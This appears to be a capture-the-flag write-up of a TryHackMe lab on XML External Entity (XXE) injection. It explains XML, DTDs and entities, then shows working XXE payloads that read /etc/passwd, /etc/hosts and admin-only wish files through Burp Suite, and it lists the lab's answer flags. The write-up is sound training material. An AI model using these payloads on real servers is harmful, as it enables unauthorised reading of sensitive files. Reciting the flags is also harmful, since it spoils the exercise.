







# XXE -
XXE is an **attack that takes advantage of how XML parsers handle external entities**. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitisation is not in place, the attacker may point the entity to any malicious source/code causing the undesired behaviour of the web app.
```
FOR EXAMPLE ---

<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

## Day-5: SOC-mass XX-what-ee?
**Overview** :
In this room, I learned how XML works, how XML External Entity (XXE) vulnerabilities arise, and how attackers exploit them to read sensitive files from a server.

## Important Concepts
1. **XML** (Extensible Markup Language) :  
XML is used to store and transport structured data.
Uses custom tags to organise information.
Both humans and machines can easily read it.
```
FOR EXAMPLE ---

<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```
2. **DTD** (Document Type Definition) :
It defines the rules/structure of an XML document and It works like a blueprint.
```
FOR EXAMPLE ---

<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
```
3. **XML Entities** : 
They are used as placeholders for data.
They can be:
* Internal.
* External (important for attacks).
```
FOR EXAMPLE ---

<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
```

## Application Flow (Wareville)

-> Steps:  
- Browse products → /product.php
- Add item to wishlist
- Go to cart → /cart.php
- Checkout → enter name & address
- Wish saved as:
```
/wishes/wish_X.txt
```
--> These wish files are admin-only

## Intercepting Requests (Burp Suite)
-> Steps:
- Open Burp Suite and Enable:  
    - Proxy → Intercept
    - Use Burp browser
- Visit:
```
http://MACHINE_IP
```
- Capture request in:
```
Proxy → HTTP History
```


## Backend Behavior
- XML Request Sent:



```
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>1</product_id>
  </item>
</wishlist>
```
- Problem:
    - External entities are enabled. 
    - Parser automatically resolves them. 

## Exploitation Phase-1 (XXE Attack)
-> Step 1: Send to Repeater :
```
Right-click request -> Send to Repeater
```
-> Step 2: Inject Payload
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>&payload;</product_id>
  </item>
</wishlist>
```
-> Result:


--> XXE vulnerability confirmed.

## Exploitation Phase-2 (Reading Wishes) :
-> Target:
```
/wishes/wish_1.txt
```
-> Payload:
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>&payload;</product_id>
  </item>
</wishlist>
```

-> **Iteration:**
Change:
```
wish_1.txt → wish_2.txt → wish_3.txt ...
```
For this purpose, using **Intruder** :

And There we got the flag-1 :



After discovering the vulnerability, McSkidy immediately remembered that a CHANGELOG file exists within the web application, stored at the following endpoint: http://MACHINE_IP/CHANGELOG. After checking, it can be seen that someone pushed the vulnerable code within the application after Software's team.


## Conclusion :
- XML is powerful but dangerous if misconfigured
- XXE occurs when:
    - External entities are enabled
    - Input is not validated
- Attackers can:
    - Read local files
    - Access restricted data
- Burp Suite is essential for:
    - Intercepting
    - Modifying
    - Replaying requests

### **Answer the questions below** : 
Q-1 What is the flag discovered after navigating through the wishes?
```
THM{Brut3f0rc1n6_mY_w4y}
```
Q-2 What is the flag seen on the possible proof of sabotage?
```
THM{m4y0r_m4lw4r3_b4ckd00rs}
```
Q-3 If you want to learn more about the XXE injection attack, check out the XXE room! 
```
No Answer Needed
```
Q-4 Following McSkidy's advice, Software recently hardened the server. It used to have many unneeded open ports, but not anymore. Not that this matters in any way.
```
No Answer Needed
```
---